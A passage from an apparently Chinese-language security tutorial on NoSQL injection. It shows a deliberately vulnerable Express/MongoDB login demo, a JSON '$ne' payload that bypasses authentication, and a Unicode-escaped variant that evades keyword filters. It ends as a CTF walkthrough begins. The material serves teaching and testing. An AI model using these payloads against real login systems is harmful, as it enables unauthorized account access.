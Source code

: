 ```js
        if (!user) {
            return res.render('index.jade', {message: 'Login Failed'});
        }

        return res.render('index.jade', {message: 'Welcome back ' + user.name + '!'});
    });
});

var server = app.listen(8000, '0.0.0.0', function () {

    var host = server.address().address
    var port = server.address().port

    console.log("listening on http://%s:%s", host, port)
});
```

- index.jade

```bash
h1 #{message}
p #{message}
```

运行 server.js 后，访问 8000 端口：

![img](https://p2.ssl.qhimg.com/t0143044bc7ff0f6c1b.png)

由于后端解析 JSON，所以我们发送 JSON 格式的 payload：

```json
{"username":{"$ne":1},"password": {"$ne":1}}
```

![img](https://p1.ssl.qhimg.com/t01fec077fa24cf4027.png)

如上图所示，成功登录。

在处理 MongoDB 查询时，经常会使用 JSON格式将用户提交的数据发送到服务端，如果目标过滤了 `$ne` 等关键字，我们可以使用 Unicode 编码绕过，因为 JSON 可以直接解析 Unicode。如下所示：

```json
{"username":{"\u0024\u006e\u0065":1},"password": {"\u0024\u006e\u0065":1}}
// {"username":{"$ne":1},"password": {"$ne":1}}
```

![img](https://p3.ssl.qhimg.com/t01111e1c70dfa2e160.png)

 

## Nosql 相关 CTF 例题

### [2021 MRCTF]Half-Nosqli

进入题目，发现是一个Swagger UI：
